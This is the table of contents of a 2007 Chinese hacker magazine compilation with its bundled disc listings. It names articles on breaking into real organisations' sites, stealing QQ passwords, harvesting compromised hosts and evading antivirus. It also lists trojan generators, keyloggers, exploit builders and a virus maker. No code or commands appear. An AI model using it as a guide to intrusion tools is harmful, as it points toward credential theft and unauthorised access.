# 非安全黑客手册合订本2007年①②季第一部分

---

## 非安全 12 季合辑

# 黑客手册合订本

## 2007 ①②季

双DVD（Hacker[C语言]培训录像 + 缓冲区溢出教程电子书）+ 附赠小手册




www.nohack.cn

￥36元

# 非安全

# 黑客手册 2007 ①②季

# 合订本

# NOHACK


# WWW.NOHACK.CN

# 非安全

## 黑客手册

出品人：非安全  
编辑：Python LCX 空气 眼镜猴 李亦聪  
小S 浪迹天涯 李文杰 星陨石碎  
特约编辑：风飘雨 小迷 XApache  
剑心 寂寞刺猬 张宇  
LinX B4N 青蛙王子  
平面规划：黑裤子  
网站：www.nohack.cn  
网站编辑：ICEYES 空气  
形式：1CD + 1手册，手册仅随光盘一同赠送，不得单独销售。  
版权声明：图文版权所有，未经同意，不得转载。  
投稿信箱：nohack@21cn.com  
邮购查询：hope_wym@sina.com  
光盘投稿/交流信箱：CD@nohack.cn

# CONTENTS 目录 2007.01

## 烽火台

- 18 新闻短评快
- 19 漏洞公告牌

## 肉鸡接龙

- 20 新年送肉鸡——肉鸡简单抓 crazyshell
- 22 肉鸡加固大盘点 天涯哀草

## 菜鸟恶补

- 23 菜鸟玩转 WMI 之实例篇 风飘雨

## 酷玩

- 25 WEBQQ 密码我来盗 孤求
- 26 惊爆：建设银行积分我们都来洗刷刷 罗秉琨
- 27 Hotmail 漏洞 抢注国务院办公厅的 MSN 李嘉义
- 28 让 QQ 医生守护 QQ 号 Apple 旭
- 28 非会员不想再等待——QQ 网络硬盘 罗秉琨 周浩

## Q版黑客

- 29 记一款短小精悍的小工具——All In One 黑侠
- 31 学习计算机进程保护自己的爱机 icyleaf
- 34 由 INF 文件想到的 落花无痕
- 35 跑跑卡丁车道具大丰收 侯金星
- 36 进程终极保护者 icyleaf

## 喃喃黑语

- 37 我的黑客恋人 dark follower
- 39 黑客路漫漫 cjlchan
- 40 中国黑客团队原始记录：岁月如歌 NoHack

## 新洞练练看

- 41 PHP 漏洞系列——包含文件漏洞（原理篇）IceskYsl@1st
- 43 跨出权限——世纪热线全站程序完美版漏洞利用 樱花浪子[1.S.T]
- 45 新上传漏洞是这么发现的——记 FCKeditor 上传漏洞发现全过程 COXB
- 47 注入、跨站、击垮中韩秀留言簿 樱花浪子[1.S.T]
- 49 F2BLOG 漏洞练练看 hacklu

## 西线无战事

- 50 Symantec Antivirus 远程栈溢出漏洞入侵实战 myvbscript
- 51 窥探防火墙之后的数据库 sheldon
- 53 友情检测“中国教育信息网” 心雨
- 54 新年前夕之跨高校图书馆之旅 Morephaze[D.S.G]
- 56 渗透中国网络战队 hacklu
- 58 简简单单杀进中国电信 心雨

## 黑器免杀班

- 59 网页木马免杀简介 蜀国布衣

## 无毒有偶

- 61 NTFS 巧设限远离流氓软件 崔峰
- 62 禁毒行动——一次艰难的杀毒过程 花非花[L.S.T]

## 窗外

- 63 Linews
- 64 用 Conky 美化你的桌面
- 65 在 Ubuntu 中通过 VMware 安装 Windows XP

## 泡泡吧

- 67 网吧之网——网吧布局 星陨石碎

## 快码加编

- 70 网页盗密——IE 剪贴板攫取技术 腐家主人
- 72 VB 打造低权浏览器 风飘雨

## 跨年专题

- 73 菜鸟成长日记 花非花[L.S.T]

## 反黑现场

- 82 反黑精英系列之入侵防御（一）New4 [D.T]

## Office 38线

- 84 系统的替身——影子系统 影子
- 86 “破”了你，系统密码 icyleaf

## Cracker

- 87 破资源
- 87 破技巧
- 87 破解黑客字典 II 小智[B.X]
- 88 一个 Keyfile 类型的 Crackme 的注册算法分析 December
- 89 verypdf pdf stamp 的挑战 Kflnig
- 92 驯服大鳄鱼 Armadillo 风飘雪

## 读编互动

- 94 Q&A 徐师傅
- 96 29号信箱

# CONTENTS 目录 2007.02

## 烽火台

- 99 新闻短评快
- 100 漏洞公告牌

## 肉鸡接龙

- 101 别人帮我捉肉鸡 天涯衰草

## 菜鸟恶补

- 102 XP 远程桌面端口修改方法 疯狂杰泽尔
- 102 制作自己的一键还原系统 icyleaf
- 104 菜鸟玩转 WMI 之 WMIC（上）风飘雨

## 酷玩

- 105 网络海选——CC 当选最佳评委 李嘉义 @CNSU
- 107 给摄像头安装一个“金钟罩” 天涯衰草
- 108 QQ 木马也钓鱼 思彤
- 109 过去的通知图标泄漏隐私 疯狂杰泽尔

## Q版黑客

- 109 新黑洞，新变化 万立夫
- 111 巧用图片分享资料 阿诺
- 112 漫长的入侵 TOP 小浩
- 114 菜鸟也玩 DIY 健健
- 115 网络新生熊宝宝——熊宝宝远控 Hxu
- 116 菜鸟也能入侵网站 黑8（U.S.C）

## 喃喃黑语

- 117 仅剩的百分之十的爱情 笨笨心情女人
- 118 我属于哪里 Guigui

## 新洞练练看

- 119 彻底击溃 C-BLOG 飞舞的帽子[SEU]
- 121 关于风讯系统的漏洞分析 花非花
- 122 冠龙科技企业网站管理系统 V8.0 漏洞利用 樱花浪子[I.S.T]
- 123 梦可轩整站程序漏洞分析 落花无痕
- 125 再战廊坊供求信息网系统 花非花
- 127 易心博客 V1.6 漏洞解析 HackLU

## 西线无战事

- 128 全国三级甲等医院的渗透手记 Morephaze[D.S.G]&sheldon[D.S.G]
- 131 另类拿 WEBSHELL 第九街的咖啡
- 132 一次一波 N 折的入侵 第九街的咖啡
- 133 对浙江软考网的入侵
- 133 JSP 拿下秦皇岛信息港 思彤

## 黑器免杀班

- 135 木马免杀之添加花指令 衰草
- 137 看菜鸟打开铁笼放飞鸽子——VIP2006 鸽子免杀 klxy[B.Y.T]

## 无毒有偶

- 138 安全工具的诱惑——关于 Nikto xh015xh

## 窗外

- 139 Linews
- 140 Ubuntu 安装图文全解 lamfriday
- 142 Ubuntu 基本配置 青蛙

## 夜航船

- 143 反驳《Google 的间谍软件网站警报有误》的索赔言论 XApache

## 泡泡吧

- 143 记一次网吧突破 SDS
- 144 网吧“完美”盗号 de 少
- 145 网吧服务器共享资源的利用与防范 SDS
- 146 网吧之网——网吧通信与安全 星陨石碎

## 新春特辑

- 150 春节免费看电影——影院系统漏洞特辑 花非花[L.S.T]

## 反黑现场

- 153 反黑精英系列之入侵防御（二）New4 [D.T]

## Office 38线

- 154 简单实现数字出版加密 阿诺
- 155 系统安全卫士——System Safety Monitor 布衣

## Cracker

- 157 破资源
- 157 破技巧
- 158 破解前奏之使用 ESP 定律来辅助脱未知壳 December
- 159 代码克隆技术与注册机编写之入门篇 风飘雪
- 163 菜鸟也玩密码学算法——MD5 December
- 164 失败的破解并非毫无用处 kflnig

## 软件批评

- 167 防火墙不防火 smallrascal [S.C.T]&[A.V.T]

## 截稿漏洞

- 168 看菜鸟如何研究 DZ 论坛暴物理路径漏洞 迎风听海[S.H.C]

## 读编互动

- 169 Q&A 徐师傅
- 171 29号信箱 眼镜猴

# CONTENTS 目录 2007.03

## 烽火台

- 173 新闻短评快
- 174 漏洞公告牌

## 肉鸡接龙

- 175 百度批量抓鸡 花非花[L.S.T]&&[1.S.T]
- 175 我用“电驴”抓肉鸡 Simeon

## 菜鸟恶补

- 177 菜鸟玩转 WMI 之 WMIC（中）风飘雨

## 酷玩

- 178 空间密码不再止步，密码奈我何 姚丽青
- 179 绕过微软正版验证，轻松安装 Microsoft Media Player 11 和 IE7.0 winstear
- 180 网络嗅探器——手机图铃任我下！崔峰

## Q版黑客

- 181 注入菜鸟也能玩破解 elin
- 183 跟我进行 LAN 内最实惠的入侵 牟晓东
- 184 菜鸟也拥有练习安装操作系统的电脑 pop
- 186 再也不要背叛我！——迅雷 JiaJia [YuLv]
- 187 愚人节的礼物 红山茶

## 喃喃黑语

- 187 幸福 安安
- 189 中毒 笨笨心情女人
- 190 昨天是什么日子啊 WHOS

## 新洞练练看

- 192 首发：TOP100 强安全工具第 20 名——GFI LANguard Network Security Scanner 管理员密文泄露高危漏洞 Lenong
- 193 JSP 系统中的异常处理跨站及跨站详解 曾云好
- 196 注入——嘉缘人才管理系统 ipconfig
- 197 对奇迹 SF——天使之翼 MU 程序的突破 花非花[L.S.T]&&[1.S.T]
- 198 F-blog 漏洞分析 心雨[1.S.T]
- 199 注入——击垮青创文章系统 Mystery

## 西线无战事

- 201 一鼓作气玩穿冰点极限的黑客游戏 KYO
- 203 从 Web 漏洞到 Root 权限全展现 cnbird[H.U.C]
- 204 浅谈如何留下隐形后门 花非花[L.S.T]&&[1.S.T]
- 205 一次“完整”的渗透过程 樱花浪子[1.S.T]
- 207 巧用网站配置文件提升权限 Simeon 暮云飞
- 209 好心有好报——记一次除马过程 Sniperhg
- 210 搜索出巅峰权限 Xshine
- 210 菜鸟玩远程包含漏洞——实战篇 fint.yongyule
- 212 分析中国网络电视被黑以及友情检测江苏特价图书批发网 fint.yongyule

## 窗外

- 214 LINEWS
- 215 玩转 Linux 之下载篇 青蛙王子
- 216 轻松使用 Live CD——让 Live CD 没有 CD 也 Live 李亦聪

## 泡泡吧

- 217 一次网吧入侵小记 佚名
- 218 突破 Pubwin 网吧系统的方法 性Q
- 219 10 秒钟解除网吧下载限制 佚名

## 快码加编

- 219 Anything is possible——简简单单穿透 WinXP SP2 防火墙 李小魏
- 220 MSN，你的记录我来看 smallrascal [S.C.T]&[A.V.T]

## 3月专辑

- 223 菜鸟也来玩转炸弹攻击 罗秉琨

## 反黑现场

- 228 反黑精英之入侵防御（三）New4 [D.T]

## Office 38线

- 230 给系统挖一道“护城河” 蜀国布衣
- 232 免费硬盘增容大法你用了吗？阿诺

## Cracker

- 233 破资源
- 233 破技巧
- 233 破解前奏之手脱 EXEStealth 的几种方法 December
- 235 轻松解除《网络守护神标准试用版》的时间限制 六秒
- 235 完全破解媒体下载大师 小智[B.X]

## 读编互动

- 237 Q&A 徐师傅
- 239 29号信箱 眼镜猴

# CONTENTS 目录 2007.04

## 烽火台

- 241 新闻短评快
- 242 漏洞公告牌

## 肉鸡接龙

- 243 抓鸡宝典 雪落的瞬间

## 菜鸟恶补

- 243 菜鸟玩转 WMI 之 WMIC（下）风飘雨

## 酷玩

- 245 腾讯 QQ 最新漏洞 天涯
- 245 快速得到 QQ 好友列表 罗秉琨
- 246 盗完 QQ 了，然后呢？——全方位解读 QQ 可利用价值 天之焱
- 247 破解 QQ 聊天记录读取器 5.3 天之印[C.H.R]

## Q版黑客

- 247 浅谈提高网速的误区 pop
- 248 简单实现对 OCX 和 DLL 文件的注册与反注册 JiaJia [YuLv]
- 249 免费电话我来打 坏孩子（BadKid）
- 250 QQ 蜂鸟体验手记 pop
- 252 菜鸟级——鸽子上线+免杀+挂马 龙月

## 喃喃黑语

- 254 老美的黑客在干嘛？——见识赌城 DEFCON 黑客年会的非主流文化 Ivory
- 256 罂粟凝眸 笨笨心情女人
- 258 谁入侵了谁的心 海边一粒沙

## 新洞练练看

- 259 Phpwind 5.0 最新 SQL 注射 0day 详解 0x27.com
- 261 WIN2003 的缺陷带来动易新漏洞 蓝梦泽
- 262 三顾讯时——对讯时新闻发布系统的艰难突破 月无痕[L.S.T]&& 花非花[L.S.T]
- 265 关于看雪软件安全第一期中的 crackme kflnig
- 265 当 cityblog 遇到 X-Forwarded-For 寂寞的刺猬[L.S.T]
- 269 留言留出 shell 来 Flyh4t[东南大学]
- 270 MSMAX-blog 的致命伤 一月
- 271 免费交友跟我走——分析涵舍交友系统 月无痕[L.S.T]
- 272 新云文章系统最新版漏洞解析 落叶纷飞
- 274 对网域企业网站管理系统的分析 一月

## 西线无战事

- 275 拓宽 NBSI 的注入范围 寂寞的刺猬[L.S.T]
- 277 调包记 寂寞的刺猬[L.S.T]
- 279 假作真时真亦假——or 注入教程 落叶纷飞
- 279 注入屠城——从荆棘满都城到满城尽带黄金甲 落叶纷飞
- 281 神舟电脑，我来了 elin
- 284 安检 XX 信息港 elin
- 286 入侵中国十大门户站——搜房网 雕牌

## 黑器免杀班

- 287 鸽子免杀三重奏 第九街的咖啡

## 无毒有偶

- 288 反黑精英之威金病毒 New4 [D.S.T]

## 窗外

- 289 Linews
- 290 巧用 Shell 脚本记录用户操作 紫色焰火
- 291 没有 Windows，照样破密码 李亦聪

## 泡泡吧

- 292 深入网吧背后——谈破解真相 兜兜 囿糖

## 快码加编

- 294 用 Perl 编写端口重定向工具 wolfSea
- 296 无视 Autorun.inf 类病毒的疫苗 JiaJia [YuLv]

## 周年专题

- 297 安全检测：拉响国内排名前十名牌大学的网络警报 fint.yongyule

## Cracker

- 306 破资源
- 306 破技巧
- 306 代码克隆技术与注册机编写（下篇）风飘雪
- 310 战胜 vb 经典编程.exe kflnig
- 312 揪出被易语言隐藏的字符串 December

## 读编互动

- 314 Q&A
- 317 29号信箱

# CONTENTS 目录 2007.05

## 烽火台

- 320 新闻短评快
- 321 漏洞公告牌

## 肉鸡接龙

- 322 菜鸟也玩 WinRAR <=3.6 0day exploit 秋风一叶
- 323 MS07-017 之肉鸡横飞 New4[D.S.T]

## 菜鸟恶补

- 325 让你的密码强化训练 icyleaf
- 326 远程终端（WTS）安全及其安全防范技术研究 陈小兵

## 酷玩

- 328 美女，我要找到你 小草
- 329 视频聊天七十二变 喻枭
- 329 窗口——对你不再手忙 小坏坏
- 330 打造自己的 QQ 聊天记录查看补丁 OWENHU
- 331 QQGAME 也外挂 Flyh4t[sus]
- 331 QQ 硬盘快速启动 逆天

## Q版黑客

- 332 让 WinXP SP2 支持多个用户同时建立远程桌面连接 黑客力量
- 334 会点击鼠标就能清除灰鸽子 蜀国布衣
- 336 对《服务器 IPSEC 防御 CC 攻击》一文的补充 花非花
- 336 黑窗下的快捷键 peace
- 337 快速安装系统补丁 红色 GE
- 338 轻松下载视频站点中的 FLV 文件 JiaJia[YuLv]
- 338 乘胜追击——渗透教务处 Evilguy

## 喃喃黑语

- 339 战争游戏 Guigui
- 342 采访教主

## 新洞练练看

- 343 最新漏洞攻陷 phpwind 的坚固堡垒——webshell 任我拿 开心[E.S.T]
- 344 F-Blog 漏洞挖掘及利用详解 雕牌 / 杜华军[L.S.T]&[H.S.T]
- 346 Bbsxp 0day 简单分析以及利用 马骏（C.R.S.T）
- 347 让邪恶继续蔓延——深入挖掘最新版风讯 4.0sp3 漏洞 落叶纷飞[S.S.T]&[Leaves]
- 348 台湾 CJB-ASP 程序漏洞浅析 花非花[L.S.T]&&[I.S.T]
- 350 万豪影院致命伤 月无痕[L.S.T]
- 353 PHPWind 5.3 后台拿 webshell 方法 char
- 354 脆弱的网愿人才网 月无痕[L.S.T]
- 355 爬上许愿墙——防注入系统的利用 那贼
- 356 学习 eWebEditor、易心 blog 后台轻取 webshell 心飞扬

## 西线无战事

- 357 挖出百度空间的 XSS 漏洞 寂寞的刺猬[L.S.T]
- 361 记一次对国之源教育软件网站的安全检测 elin
- 364 互联星空是这样“沦陷”的 e-sky [E.S.K.Y]
- 365 入侵某红客联盟 Flyh4t[脚本安全小组]&幽游 [SUS]
- 366 关键旅游之旅——记一次入侵手记 fint.yongyule
- 369 获得免费 5 级花加人参果 梦幻风雨

## 黑器免杀班

- 370 木马免杀之重建输入表 蜀国布衣
- 371 木马免杀之过主动防御 蜀国布衣

## 无毒有偶

- 373 六一的礼物，极具破坏性的病毒——JPS（Virus Maker 3.0）天之印[火蚁]&Lizaibl[A.S.T]

## 窗外

- 374 Linews
- 375 Linux 密码的噩梦——John the Ripper 青蛙
- 376 拿什么拯救你，我的系统 李亦聪

## 不同观点

- 377 2006 年九月特辑的文章漏洞与一点延伸

## 泡泡吧

- 378 以美女的名义入侵网吧 木头花
- 379 轻松的网吧免费之旅 wyk
- 380 对网吧的全面检测 KardPan

## 快码加编

- 381 一个关于 ASCII 码加密的分析 KYO
- 382 用 VB 写文件改名助手——续《再也不要背叛我——迅雷》 JiaJia[YuLv]
- 383 教你用 Perl 编写远程控制程序 wolfSea

## 社会工程学

- 385 当 ARP 遇上社会工程学 秋风一叶

## 试用报告

- 386 WebShellControl，网站控制的又一选择 小万

## Cracker

- 388 每月破新闻
- 388 每月破资源
- 388 破解前奏之使 PeiD 认识更多的壳 December
- 389 IE 优化修复专家 2007 算法分析 Hokkien
- 391 一个经典的 CrackMe 算法分析 KYO

## 读编互动

- 394 Q&A 徐师傅
- 395 29号信箱 瘦猴

# CONTENTS 目录 2007.06

## 烽火台
- 398 新闻短评快
- 399 漏洞公告牌

## 肉鸡接龙
- 400 加固肉鸡，你用 QQ 了吗？（佚名）
- 402 注射入侵全攻略（winstear 超奕工作室[cg1st.cn]）
- 404 弹指之间，十万肉鸡上线——ARP 挂马技术初探（风尘浪子 [E.S.T]）

## 菜鸟恶补
- 406 神奇 VBS 之旅——VBS 下的 U 盘免疫（逍遥重生）
- 407 钢铁是怎样练成的——组策略安全配置（秋风一叶）
- 409 TCP 连接状态分析（王艺翔）

## 酷玩
- 410 QQ 空间，那些不为人知的秘密（KAY4）
- 411 QQ 性别任你变（小迷）
- 411 快速恢复被删的 QQ 好友（梦幻风雨）

## Q版黑客
- 411 Windows XP 自启动程序方法总结（王艺翔）
- 412 自己动手打造个性 Windows（秋风一叶）
- 414 菜鸟的扫描入侵（龙月）
- 415 解铃无需系铃人——记破解一款文件夹加密软件（phenix）
- 416 利用 Feedsky 的漏洞发送匿名邮件（黑皮猪）
- 417 免费网络电话我看行（阳小子）

## 喃喃黑语
- 418 生（PDwoot）
- 420 校盟校长——redbin（小迷）
- 421 断头台（morephaze）

## 新闻练练看
- 423 phpwind、discuz 的跨站之旅（lib3rt3）
- 424 OBLOG，将入侵进行到底（原理篇）（风尘浪子 [E.S.T]）
- 426 oblog4.0&4.5 漏洞利用并拿下 webshell（实战篇）（rabbitsafe）
- 427 魔力论坛本地包含漏洞分析（Flyh4t[脚本安全小组]）

## 西线无战事
- 428 对 sina 分站的一次渗透（x.Herman）
- 429 利用 Gene6 FTP Server 提权（rabbitsafe）
- 431 入侵检测贤士榜（寂寞 hacker）
- 432 突破数据库防下载拿到 webshell——记一次对动易数据防下载的突破并通过备份数据库拿一句后门（平安年间）

## OR，让注入更疯狂！
- 434 OR，让注入更疯狂！（踏雪）
- 434 渗透飞思科技——飞雨信息港整站程序漏洞利用（樱花浪子[I.S.T]）
- 436 清华，未眠夜（fint.yongyule）

## 反黑现场
- 439 反黑战——谁在控制我的电脑（Smart）
- 440 黑精英之熊猫烧香不死之谜（New4[D.S.T]）

## 窗外
- 442 Linews（青蛙）
- 442 Live CD 的 U 盘大作战（Fint. Friday Lee）
- 445 Linux 系统后门技术（隐藏账户篇）（yxyhack）

## 泡泡吧
- 446 简单突破网吧计费系统——网吧免费上机小结（IQ 富翁）
- 448 破解网吧下载限制之终极方法——打造属于自己的在线下载（冰晨）
- 449 破解万象 2004 网管密码的几种方法（枫 & 月黯伤）

## 快码加编
- 449 编写自己的过卡巴下载者（JiaJia [YuLv]）

## 社会工程学
- 451 社会工程学 + 鸽子的妙用（天之焱）

## Office 38 线
- 452 个人（商业）网站安全维护——网页木马防范（simeon）

## 六·一儿童辑
- 454 揭开数据恢复的神秘面纱（孤单每一天）

## Cracker
- 465 每月破资源
- 465 每月破技巧
- 465 破解前奏之手脱 Armadillo 单进程中的一个特例（December）
- 467 一个密码学算法的 crackme 的分析（KYO）
- 469 再战被隐藏的 ASCII 字符串（December）

## 读编互动
- 471 Q&A（徐师傅）
- 472 29 号信箱（瘦猴）

## 其他
- 474 商业代码的致命伤——四通政府网站管理系统从失窃到 0day（欧阳无敌 @[NUDT 安全应急小组]）
- 475 我是这样渗透“My 动力管理后台”的（天空一坏孩子）
- 479 非安全·黑客手册全国代理商电话

使用本光盘前请确保操作系统干净，并有相关杀毒软件进行监控；如有杀毒软件报警，请将相关文件在虚拟机中进行测试，谢谢！

# 光盘目录

- 云网论坛 V1.1
- Watchfire AppScan：商业网页漏洞扫描器
- X-Scan：一款多线程、支持插件的漏洞扫描器
- Angry IP Scanner：一款非常快的 Windows IP 和端口扫描器
- Brutus：一款网络验证暴力破解器
- N-Stealth：一款网页服务器安全扫描器
- Pwdump：一款 Windows 密码恢复工具

# 手册相关

## 2007 年 1 月

#### 黑客厨房
- Domain3.6、MyBrowser、自动攻击探测机 WINNTAUTOATtack
- 菜鸟玩转 WMI 之实例篇——相关 VBS 脚本集
- isRun 进程守护程序
- 超级兔子魔法设置 v7.93
- 抓包工具 WinSock Expert v0.6 beta1 及相关 js、asp、pl 文件包
- QQ 医生 QQDoctor v1.0 beta
- QQ 网络硬盘替换文件 qqnetdisk.dll
- 3389 连接工具
- Cain2.9 汉化绿色版 + WinPcap3.1 纯净版、混客 SQL 利用工具、Icx.exe 端口转发工具
- NBSI2 商业版
- 海阳顶端 ASP 木马 2006eval 版
- 金山毒霸系统清理专家.smi
- 影子系统 PowerShadow v2.6.0511
- 《Windows 环境下 32 位汇编语言》
- 黑洞黑手专版
- 英雄网马黑手专版
- 键盘记录 BlueStar 黑手专版
- [天降神兵]下载者 V2.0
- 红蜻蜓远程控制 V1.0
- 小叶子网马生成器
- 牧民战天飞鸽传书
- 黑色力量最新网马生成器
- 火狐免杀站长助手生成器
- 华夏免疫压缩壳
- E-神文件加密器
- 火狐加密免杀器
- 侠客密码查看器
- 网马加密最终版的解密工具
- 游戏木马检测大师
- LDM 木马检测程序（反木马）VI
- ASPX 漏洞检测工具
- 瑞星流氓软件 7939 专杀工具
- Office 全版溢出系列捆绑工具
- 双系统下 win 读取 Linux 分区中文件
- 一键 GHOST
- 传奇幽灵源代码
- 新蔡房产信息超市网 V1.1
- MediPro 城市美食门户网站系统
- 凌云论坛 LyBBS V7.0

#### 动画教室
- 完美脚本演示及最新漏洞入侵全程
- 反黑精英之入侵防御（一）
- 跨出权限——世纪热线全站程序完美版漏洞利用
- 入侵动易 2006
- 菜鸟入门之抓同城肉机
- 超详细灰鸽子无需 FTP 空间上线
- 新年肉鸡简单抓
- 注入、跨站击垮中韩秀留言薄
- 修改系统图标大小
- 不用工具对付恶意网站
- sa 权限注射全程
- 轻松架设 ASP 服务器疯狂盗 QQ

## 2007 年 2 月

#### 黑客厨房
- 矮人 DOS 工具箱
- 一键 GHOST 光盘版
- UltraISO 绿色注册版
- 黑洞远程控制 BlackHole1.1
- 绣身文件合并器
- 熊猫宝远程控制
- googlehack、MD5Crack2、特南克斯工具集等
- 辅臣数据库浏览器、Domain3.6、md5shav、海阳顶端网 ASP 后门以及 lbs2.0、304 的源码
- 灰鸽子 VIP2006、WinHex、OD、Peditor、ASPack、freeRes 及 UPX
- 超级加花器、精锐还原精灵密码读取器、硬盘保护卡克星
- ExeBinder 和 IE 通杀 ODAY 生成器
- USB 摄像头偷窥终结者
- 系统安全卫士——System Safety Monitor
- 风云防火墙个人预览版
- 网页木马防护器
- 好学友之幼教管理系统 2.2 Plus
- 木马传播精灵 2007
- 新年新春黑客专业版超强组合网马
- 神泣木马生成器
- ▲老熊键盘记录器 V7.0
- ▲穿墙++ 远控软件（Amalgam Lite）
- 专用 Access 密码查看器
- C32Asm v0.4.12 完全版
- 加密狗类型侦测工具 V2.1
- VProtector 加壳工具
- 超级密码爆破器
- 网站程序安全分析器黑客手册专版
- 图片识别扫描器黑客手册专版
- Norton AntiVirus 2007 简体版
- 瑞星卡卡安全助手 v3.1.0.15
- 木马杀客 2007 正式版
- Vista 工具箱 V2.0
- Windows 算号器完美激活 SP2 版
- Undelete Plus V2.50 多国语言版
- Cpu-Z V1.38 汉化版
- 无忧 PHP 贴吧 v1.0
- Struts 新闻管理系统
- 批量终端连接器
- ▲Songbo QQ 大盗最新版本 V4.1
- ▲诺基亚 NOKIA 万能密码计算器
- ▲文件保护专家 V9.61 简体中文特别版
- 玛雅文件加密专家 V2006 1.1.1.756 大众版
- AUTO 病毒免疫器 V1.0
- 熊猫烧香专杀工具集合
- 杀马（Defendio）v3.0.0.633
- 万象网吧硬盘测试版
- 无限网络存储器
- 图像工具小集合 V1.0
- 启动易（EasyBoot）v5.10 简体中文版
- Vista 总管 V1.06
- 渐飞网站管理系统 v4.0 专业正式版 Build 20070105
- 新普网络商城 XpShop.net v4.0 Beta 静态 HTML 版
- 缘梦江湖 V10.6
- 风铃文件共享系统

#### 动画教室
- 菜鸟打造自己的专用软件
- 网站无备份的条件下入侵
- 破解前奏之手脱 EXEStealth 的几种方法
- DVBBS.PHP 版本后台挂马新漏洞
- VB 做一个绝对免杀的木马
- 动力跨站漏洞
- 入侵传奇网得 webshell
- 彻底击溃 C-BLOG
- Ghost 备份系统
- Cookies 欺骗入侵网站
- 入侵网吧
- 免费获得跑跑卡丁车点券

#### 动画教室
- 我用电驴抓肉鸡
- 反黑精英之入侵防御（三）动画
- UniExtract 实战卡巴斯基安装程序
- 入侵电影网站会员
- 超级隐藏挂马新思路
- 盗取 ASP 箱子
- 详谈一句话木马
- PcAnywhere 提权动画
- 金山破网吧
- 超简单抓服务器肉鸡
- 简单拿站点
- 简单修改菜鸟蒙昧以求的音速启动

## 2007 年 3 月

#### 黑客厨房
- ▲ Winsock Expert、啊 D 注入工具和多功能数据库浏览器
- DameWare 远程控制软件迷你版和 X-Scan
- 加加文件改名助手
- 网络嗅探器 V4.73
- ▲ Metasploit、PCSHARE 和 Tftp 服务器
- ExeStealth_2.76、影子管理员检测软件
- 媒体下载大师
- ▲菜鸟也来玩转炸弹攻击——相关工具
- 360 安全卫士、瑞星 2007 漏洞扫描及动画演示
- ▲安全焦点内部使用版本 WebShell
- 小勇问道木马生成器 3.0
- IE 通杀 0day 生成器
- ▲MS07-004 网马生成器
- ▲免杀捆绑器 + 源代码
- 守望者远程控制软件 2007E+ 免费版

## 2007 年 4 月

#### 黑客厨房
- 咔吧杀手生成器
- QQ 蜂鸟测试版
- 明哥的小马和老兵叔的 MyBrowse
- ▲POST 提交工具、数据注入中转生成器
- ▲辅臣数据库浏览器 DatabaseBrowser、远程桌面连接软件及相关 asp
- E 时代网络电视播放器 1.2 版及相关程序
- ▲火焰天下 - 终极悍马 - 智能型网马
- ▲网络千驹 2007 金猪祝福版
- ▲vv 定时下载者
- ▲冰之缘盗 QQ 免杀版
- 封杀网马综合生成器
- ▲小川 QQ 大盗 0303 免杀稳定版
- 注册机编写器 V1.65
- 360 安全卫士 V3.1 黑客手册专用版
- 冰盾系统安全专家 v5.5
- 网站分析系统黑客手册专版
- 轻松提取资源 V1.89
- 断针即时打 XP V5.5
- 敏感硬盘卫士 V2.2
- 东方立体浏览器 V1.0
- 数据转换器 XP 完整版
- 中华搜索宝 V2004b
- 网吧虚拟计费 V2.2
- 315 认证网排行榜程序
- 小胡源码下载系统

#### 动画教室
- win2003 缺陷带来的动易漏洞
- 大逃杀系列·卡巴版
- 脚本后门挂马全攻略（语音）
- DOS 命令行入门篇
- FilePacker 脱壳爆破追码
- 一句话木马图片制作加批量拿动易 2006 WebShell
- 去网吧 1433 限制
- 鸽子免杀三重奏
- 新云文章系统最新版漏洞解析
- QQ 反钓鱼
- 假作真时真亦假——or 注入教程
- 留言留出 shell 来

## 2007 年 5 月

#### 黑客厨房
- ▲MS07-017 网页木马生成器
- 金山快译 2007（只有 1.7M 的绝对经典）和 WebcamMax
- IceSword、超级巡警和 SysCheck2
- 360 安全卫士和自动安装系统补丁工具
- 迅雷 FlvPlayer 插件和 RivaFLVEncoder
- 开启终端服务的工具 3389.exe、MSSQL 连接器和海阳的 ASP 木马
- 超级扫描器 Superscan 3.0
- 远程桌面连接、lake2EvalClient、NBSI、阿 D 注射工具
- ▲极具破坏性的病毒——JPS（Yirus Maker 3.0）
- QQ 聊天记录读取器、QQ 聊天保密箱
- 看雪论坛精华 8
- 新一代全图形界面调试器 Syser Debugger v1.7
- ▲ANI 木马生成器
- 木偶 V3.6 测试版
- 智能下载者
- 小熊技术论坛远控 V3.95
- 网马 2007-RIFF 木乃伊归来测试版
- 智能 ANI 漏洞木马生成器
- 网页加密终结者 V1.65
- ▲海盗工作室 ASP 木马免杀器
- 影子系统破解器
- 超级加花器 V1.6
- ▲社会工程学字典
- ANI 漏洞官方 + 非官方补丁
- 黑鹰进程管理器
